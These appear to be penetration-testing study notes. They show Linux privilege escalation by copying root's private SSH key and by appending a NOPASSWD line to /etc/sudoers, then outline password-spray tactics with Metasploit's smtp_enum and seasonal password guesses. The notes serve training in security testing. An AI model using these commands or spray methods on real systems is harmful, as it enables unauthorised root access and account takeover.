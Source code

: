 - create a .ssh in the user /home folder
- copy the id_rsa file to this folder
- and give the property permission

```
cd /home/lowpriv/
mkdir .ssh
cp /root/.ssh/id_rsa /home/lowpriv/.ssh/.
chmod 600 id_rsa
```

// now we can access the root@localhost via ssh 

```
ssh -i /home/lowpriv/.ssh/id_rsa root@localhost
```

### 2nd time
```
grep -nri "/tmp/message" /usr
printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers'
```


# Exploitation over the Network


## Password Spray Attack
- trying just a single password attempt against tens or hundreds of user accounts.
- reduces the risk of account lockout
- help us stay **under the radar**
- aka Reverse-Brute-force attack


- first we need to gather as many usernames as possible
- utilizing more than one tool could help us compile an initial user list
- The Harvester, Statistically likely usernames, etc
- smtp-user-enum, metasploit has **smtp_enum** module, manual methods as vrfy, expn etc

### create a user list
- using the Statiscally Likely Usernames

```
head -n 50 john.txt >> users.txt
```

- combine with user that you gathered from other phases of testing

in Metasploit:
```
	use auxiliary/scanner/smtp/smtp_enum
	set options
	// we should get valid users as result, so we must add these in a file valid_users.txt
```

- now we should determine one or two (maximum) commonly-used passwords
- the most common its the current season along with the year. e.g., **Spring2018**
- another common password: **CompanyName** + a numerical value, e.g., FooCorp01, FooCorp02
- Passwords may be reused across systems within an environment as well
